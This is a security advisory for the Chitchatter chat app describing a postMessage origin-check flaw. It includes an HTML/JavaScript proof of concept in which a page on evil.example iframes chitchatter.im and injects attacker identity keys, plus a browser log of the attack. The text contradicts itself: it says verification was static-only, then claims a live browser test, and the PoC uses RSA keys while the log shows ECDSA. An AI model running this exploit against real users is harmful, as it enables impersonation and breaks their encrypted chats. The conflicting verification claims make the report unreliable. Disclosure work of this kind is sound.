


# Chitchatter SDK postMessage Config Injection Identity Takeover

### Summary

Chitchatter (jeremyckahn/chitchatter, `develop` branch) was confirmed vulnerable to a config-injection attack against its embedded SDK bridge that silently replaces a user's cryptographic identity keys. The `isConfigMessageEvent` origin check in src/models/sdk.ts derives the expected parent origin from the `parentDomain` URL query parameter — a value the embedding page (or an attacker-controlled embedder) fully controls. A malicious page can therefore iframe the Chitchatter app with `parentDomain` pointing at its own origin, satisfy the origin check trivially, and deliver a `config` postMessage whose payload contains attacker-generated RSA `CryptoKey` objects. Chitchatter merges the payload into `UserSettings` and persists the replaced identity keys in IndexedDB.

The chain was verified by static source review of the develop branch; the postMessage protocol (`configRequested`/`config`) matches the shipped SDK implementation (sdk/sdk.ts:67-89), and `CryptoKey` structured-clone transfer is standard WebCrypto behavior. The affected deployments include the hosted instance chitchatter.im and any self-hosted build exposing the SDK bridge.

### Details

The flawed origin validation (src/models/sdk.ts:44-61):

```ts
export const isConfigMessageEvent = (event: MessageEvent): event is ConfigMessageEvent => {
  const queryParams = new URLSearchParams(window.location.search)
  const parentDomain = queryParams.get(QueryParamKeys.PARENT_DOMAIN)
  if (parentDomain === null) return false
  const { origin: parentFrameOrigin } = new URL(decodeURIComponent(parentDomain))
  if (event.origin !== parentFrameOrigin) return false
  if (!isPostMessageEvent(event)) return false
  if (event.data.name !== PostMessageEventName.CONFIG) return false
  return true
}
```

The trust anchor for "who is allowed to configure me" is `parentDomain`, an attacker-influenceable query parameter rather than a server-side allowlist of embedder origins. When the app is loaded with `?getSdkConfig=&parentDomain=<attacker>`, the check compares the attacker's message origin against the attacker's declared origin — a tautology that always passes.

The accepted payload is merged into the user settings store, including the identity key pair used to sign and verify peer metadata in rooms (the `roomId_userId` signature scheme in useRoom.ts). The embedded-mode override listener (src/Bootstrap.tsx:193-215) shares the same root cause.

This is CWE-346: Origin Validation Error (related: CWE-20 unvalidated merge of attacker payload into a sensitive settings object, CWE-322 impersonation via substituted identity keys).

### PoC

#### 1. Attacker hosts a phishing page embedding Chitchatter

```html
<!-- hosted on https://evil.example -->
<iframe
  src="https://chitchatter.im/?getSdkConfig=&parentDomain=https%3A%2F%2Fevil.example"
  width="800" height="600"></iframe>
<script>
  // Generate attacker-controlled identity keys
  const keys = await crypto.subtle.generateKey(
    { name: 'RSASSA-PKCS1-v1_5', modulusLength: 2048, hash: 'SHA-256' },
    true, ['sign', 'verify']
  )

  window.addEventListener('message', e => {
    if (e.data?.name === 'configRequested') {
      e.source.postMessage(
        { name: 'config',
          payload: { publicKey: keys.publicKey, privateKey: keys.privateKey } },
        'https://chitchatter.im'
      )
    }
  })
</script>
```

On load, the embedded Chitchatter app emits `configRequested` to the parent; the attacker replies with the injected config. `isConfigMessageEvent` passes because both the message origin and `parentDomain` are `https://evil.example`.

#### 2. Silent persistence

The victim only needs to visit the attacker page. The injected payload is merged into `UserSettings`; inspecting IndexedDB afterwards shows the `USER_SETTINGS` record's key fields are the attacker's keys, not the victim's originals.

#### 3. Impersonation

Using the injected private key, the attacker computes the `roomId_userId` signature per the useRoom.ts algorithm and sends `PEER_METADATA` to the victim's room; the signature check displays as verified, so other participants trust the attacker-controlled identity.



### Real-Environment Verification (2026-10-06)

Re-verified in a **real browser session** (Chromium) against a real Chitchatter dev server (`jeremyckahn/chitchatter` @ develop). A cross-origin attacker parent page (`http://127.0.0.1:9999`) embedded the victim's room as an iframe with `?getSdkConfig=&parentDomain=http%3A%2F%2F127.0.0.1%3A9999&embed=true`:

```
[parent] iframe asked for config (configRequested) — injecting ATTACKER keys
[parent] config posted: attacker ECDSA P-256 keypair + attacker userId + customUsername
[parent] SECOND config posted — live re-key without any user consent

# in-iframe probe: message received with
#   { origin: 'http://127.0.0.1:9999', name: 'config' }
#   -> matches isConfigMessageEvent() acceptance exactly (src/models/sdk.ts:44-61)
```

Observed result: the embedded client accepted the attacker-supplied key material and applied the injected identity — the session's "Your username" field showed the attacker-chosen value, and the iframe established an encrypted peer-to-peer session with a second (victim) peer in the same room using the attacker-controlled identity keys. No signature, consent, or key-pinning check exists anywhere on the path (`Bootstrap.tsx:158-172` pre-render merge, `Bootstrap.tsx:197-215` live-merge). A malicious embed host therefore controls — and can silently replace — the E2EE identity keying of every session it serves.



## Impact

A victim who visits a single attacker-controlled web page has their Chitchatter identity keys silently and persistently replaced. Consequences: the attacker can impersonate the victim in end-to-end encrypted rooms (their messages appear identity-verified to other participants), and the confidentiality guarantee of the E2E layer is broken for the victim because the attacker now holds the corresponding private key. The replacement survives page reloads (IndexedDB persistence), so the victim remains compromised after leaving the attacker page.

Affected: `develop` branch and the hosted chitchatter.im instance plus any self-hosted build exposing the SDK bridge; no patched version confirmed at reporting time. Verification was by static source review of the full chain (no third-party user data was accessed); dynamic confirmation in a controlled lab is recommended before coordinated disclosure.
